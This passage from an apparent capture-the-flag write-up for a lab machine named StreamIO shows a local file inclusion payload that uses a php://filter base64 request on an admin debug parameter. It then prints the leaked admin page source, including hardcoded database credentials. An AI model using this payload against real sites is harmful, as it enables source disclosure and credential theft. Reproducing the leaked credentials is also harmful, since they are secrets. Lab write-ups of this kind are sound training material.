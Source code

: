 and boom we got debug



and boom, we got an attack vector, LFI
```
https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=index.php
```

```
yr<?php
define('included',true);
session_start();
if(!isset($_SESSION['admin']))
{
	header('HTTP/1.1 403 Forbidden');
	die("<h1>FORBIDDEN</h1>");
}
$connection = array("Database"=>"STREAMIO", "UID" => "db_admin", "PWD" => 'B1@hx31234567890');
$handle = sqlsrv_connect('(local)',$connection);

?>
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<title>Admin panel</title>
	<link rel = "icon" href="/images/icon.png" type = "image/x-icon">
	<!-- Basic -->
	<meta charset="utf-8" />
	<meta http-equiv="X-UA-Compatible" content="IE=edge" />
	<!-- Mobile Metas -->
	<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no" />
	<!-- Site Metas -->
	<meta name="keywords" content="" />
	<meta name="description" content="" />
	<meta name="author" content="" />

<link href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ka7Sk0Gln4gmtz2MlQnikT1wXgYsOg+OMhuP+IlRH9sENBO0LRn5q+8nbTov4+1p" crossorigin="anonymous"></script>

	<!-- Custom styles for this template -->
	<link href="/css/style.css" rel="stylesheet" />
	<!-- responsive style -->
	<link href="/css/responsive.css" rel="stylesheet" />

</head>
<body>
	<center class="container">
		<br>
		<h1>Admin panel</h1>
		<br><hr><br>
		<ul class="nav nav-pills nav-fill">
			<li class="nav-item">
				<a class="nav-link" href="?user=">User management</a>
			</li>
			<li class="nav-item">
				<a class="nav-link" href="?staff=">Staff management</a>
			</li>
			<li class="nav-item">
				<a class="nav-link" href="?movie=">Movie management</a>
			</li>
```